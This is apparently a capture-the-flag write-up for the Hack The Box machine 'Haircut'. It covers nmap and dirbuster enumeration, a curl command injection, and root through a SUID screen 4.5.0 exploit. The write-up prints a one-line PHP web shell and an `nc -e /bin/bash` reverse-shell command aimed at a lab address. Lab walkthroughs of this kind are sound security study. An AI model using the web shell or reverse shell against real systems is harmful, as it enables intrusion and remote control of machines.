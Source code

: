 # HAIRCUT
### Info:
OS: Linux x64<br>
IP: 10.10.10.24<br>
Difficulty :  Medium<br>
### Enumeration:
```nmap -sC -sV -oA nmap 10.10.10.24``` <br>

gives us the results : <br>
![alt text](https://i.imgur.com/5nBK8qx.png) <br>
Running dirbuster:
![alt text](https://i.imgur.com/cCMH7yJ.png)
### Exploitation:
Vulnerability Exploited: CURL/Command injection<br>
Whatever input we were providing was running as a curl command. Therefore intercepting and manipulating with burp as :
![alt text](https://i.imgur.com/NiXKcad.png) <br>
 <b>Shell.php </b>
```
root@kali:~/Desktop/boxes/Haircut# cat shell.php
<?php echo system($_REQUEST['kartik']); ?>
```
![alt text](https://i.imgur.com/clUD0Qb.png)
`kartik=nc -e /bin/bash 10.10.16.16 1234` and listening on port 1234 spawns the shell for us.
### Privilege Escaltion:
Privilege Escalation Vulnerability: SUID bit file<br>
<b>/usr/bin/screen-4.5.0 </b>
![alt text](https://i.imgur.com/KVWuqDF.png) <br>
and the exploit <br>
![alt text](https://i.imgur.com/kGqr6Ep.png) <br>
Running this manually (41154.sh) gets us the root.
### KNOWLEDGE GAIN:
HTTP-based fuzzing <br>
Exploiting CURL/Command injection <br>
Local Privesc via file Screen4.5 containing SUID bit.
